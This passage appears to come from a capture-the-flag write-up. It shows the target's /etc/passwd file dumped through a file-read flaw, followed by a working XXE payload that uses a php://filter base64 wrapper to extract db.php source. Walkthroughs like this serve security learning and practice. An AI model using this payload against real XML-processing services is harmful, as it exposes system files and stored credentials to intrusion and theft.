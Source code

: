 We get a hit. The `/etc/passwd` file is displayed. 

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

We can try to grab the content of the `db.php` file that we found earlier. But due to be a `php` file, it will be rendered by the browser so this is why we should `base64` encode it using `php wrappers`.   

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```
